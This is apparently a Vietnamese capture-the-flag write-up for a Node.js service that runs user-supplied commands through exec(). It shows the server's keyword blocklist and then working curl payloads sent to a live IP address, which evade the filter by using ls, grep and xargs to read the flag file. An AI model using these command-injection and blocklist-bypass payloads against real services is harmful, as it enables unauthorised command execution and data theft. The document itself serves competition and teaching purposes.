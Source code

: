 ```
        const command = data.command; 

        if (command) {
            exec(command, (error, stdout, stderr) => {
                if (error) {
                    return res.status(500).send(`Error executing command: ${error.message}`);
                }
                if (stderr) {
                    return res.status(500).send(`Error: ${stderr}`);
                }
                return res.send(`Command output: ${stdout}`);
            });
        } else {
            return res.status(400).send("No command provided");
```
Tuy có lọc 1 số lệnh nguy hiểm nhưng vẫn dễ dàng vượt qua

```javascript
if (req.body.includes("flag") || req.body.includes("echo") || req.body.includes("cat") || req.body.includes("curl")|| req.body.includes("wget")){
            return res.status(403).send("No flags!");
        }
        if (req.body.includes("\\") || req.body.includes("/") || req.body.includes("!!") || req.body.includes("<")) {
            return res.status(403).send("Hacking attempt detected!");
        }
```

có thể thay thế lệnh ```cat``` bằng ```xargs``` và chuỗi ```flag.txt``` bằng cách sử dụng ```ls``` kết hợp với ```grep```

```
curl -X POST http://45.79.9.104:3000/ \                                                                                         -H "Content-Type: text/plain" \
  --data 'command: ls'

Command output: README.md
docker-compose.yaml
dockerfile
flag.txt
node_modules
package-lock.json
package.json
player_file.zip
restart.sh
server.js
views
```

```
curl -X POST http://45.79.9.104:3000/ \
  -H "Content-Type: text/plain" \
  --data 'command: "bash -c '\''$(ls | grep fl | xargs head -n 5)'\''"'

Error executing command: Command failed: bash -c '$(ls | grep fl | xargs head -n 5)'
bash: BDSEC{094ae1350eefe059b84faa0bd9ce2588}: command not found
```
